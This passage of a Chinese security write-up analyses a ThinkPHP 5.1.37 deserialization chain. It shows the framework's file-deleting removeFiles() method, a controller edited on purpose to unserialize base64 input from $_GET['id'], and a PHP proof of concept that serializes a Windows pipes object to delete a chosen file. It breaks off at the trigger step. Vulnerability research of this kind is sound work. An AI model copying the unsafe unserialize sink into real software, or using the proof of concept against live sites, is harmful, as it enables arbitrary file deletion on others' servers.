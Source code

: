 跟进 `removeFiles()` 则为删除文件的方法，假如 `$files` 可控便可以任意文件删除，并且 `file_exists` 能够触发 `__toString` 方法

```php
 /**
     * 删除临时文件
     */
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```

## 人为构造起点

人为构造起点是便于我们测试与理解

在 `application/index/controller/Index.php`  里修改 `index()` 方法 来人为构造起点触发：

```php
 public function index()
    {
        //return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    unserialize(base64_decode($_GET['id']));
    }
```

## 构造POC

观察 windows 类并去除不必要的部分，构造POC如下（注意 \t 的转义）：

```php
<?php
namespace think\process\pipes;
class Pipes{}

class Windows extends Pipes{
    private $files = ["C:\phpstudy_pro\WWW\\thinkphp_v5.1.37\zf1yolo.txt"];
}
echo base64_encode(serialize(new Windows()));
```

触发：
